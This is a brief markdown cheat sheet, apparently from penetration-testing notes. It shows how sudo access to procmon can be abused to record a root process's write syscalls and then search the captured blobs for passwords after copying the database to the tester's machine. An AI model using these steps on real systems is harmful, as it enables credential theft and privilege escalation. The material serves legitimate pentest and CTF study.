 # Procmon Privilege Escalation

### Main usage: Read root processes that they may contain sensitive data like passwords, etc.

### STEPS:

#### 1) Fetch the PID of the target process

    ps aux | grep TARGET_SCRIPT.sh 

#### 2) Write output in a .db file using procmon as sudo

    sudo /usr/bin/procmon -p PID -c output.db -e write 

#### 3) Transfer the file to our machine

#### 4) Open the .db file with a db browser or similar

    sqlitebrowser output.db 

#### 5) Go to -> Browse Data -> Duration (Filter > 9000000 or similar)

#### 6) Check the blobs 1 by 1. Here we can reveal potential sensitive data.
